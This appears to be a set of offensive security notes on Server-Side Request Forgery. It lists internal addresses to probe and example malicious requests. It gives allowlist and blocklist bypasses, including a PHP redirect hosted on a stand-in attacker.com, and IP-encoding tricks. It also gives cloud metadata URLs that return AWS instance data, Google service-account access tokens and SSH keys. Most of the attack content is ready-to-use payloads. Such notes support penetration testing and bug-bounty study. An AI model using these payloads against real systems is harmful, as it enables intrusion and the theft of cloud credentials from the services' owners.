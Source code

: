**Server-Side Request Forgery (SSRF)**
- SSRFs are becoming scarce, and companies are implementing strict mitigations against them. However, it can be bypassed to achieve a successful attack.
- SSRFs usually occur when the server fetches something from the backend like images, files, databases, etc.

**Identification of Vulnerable Endpoints**
- Once you've identified potentially vulnerable endpoints, provide internal addresses as the URL inputs to these endpoints:
   - localhost
   - 127.0.0.1
   - 0.0.0.0
   - 192.168.0.1
   - 10.0.0.1

**Example Requests**
1. POST `/upload_profile_from_url`
   - Host: public.example.com
   - POST request body:
     ```
     user_id=1234&url=https://192.168.0.1
     ```
2. URL: `https://public.example.com/proxy?url=https://192.168.0.1`

**Detection of Blind SSRFs**
- The easiest way to detect blind SSRFs is through out-of-band techniques. Make the target send requests to an external server you control, and monitor your server logs for requests from the target.
- Alternatively, you can turn your machine into a server using netcat and create a web server with ngrok or similar services.

**Bypass Techniques**
- **Bypass Allowlists**
  - These can usually be bypassed if you find an open redirection vulnerability.
    - Example 1:
      ```
      POST /upload_profile_from_url
      Host: public.example.com
      (POST request body)
      user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1
      ```
    - Example 2:
      ```
      POST /upload_profile_from_url
      Host: public.example.com
      (POST request body)
      user_id=1234&url=https://127.0.0.1/pics.example.com
      ```
- **Bypass Blocklists**
  - URL: `https://public.example.com/proxy?url=https://attacker.com/ssrf`
  - On your server at `https://attacker.com/ssrf`, host a file with the following content:
    ```php
    <?php header("location: http://127.0.0.1"); ?>
    ```
- **Using an IPv6 Address**
- **Encoding**
  - Hex encoding: `https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1`
  - Octal encoding: `https://public.example.com/proxy?url=https://0177.0.0.01`
  - Dword format: `https://public.example.com/proxy?url=https://2130706433`

**Impact**
- Perform port scanning.
- Pull instance metadata using IP:
  - URL: `http://169.254.169.254/latest/meta-data/`
  - Various metadata endpoints are available for querying.
  - Complete documentation for the AWS EC2 instance metadata API can be found at [AWS EC2 Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html).

**Google Metadata**
- If you detect these headers:
  - Metadata-Flavor: Google
  - X-Google-Metadata-Request: True
- Access the metadata:
  - URL: `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
    - Returns the access token of the default account on the instance.
  - URL: `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys`
    - Returns SSH keys for connecting to other instances in the project.
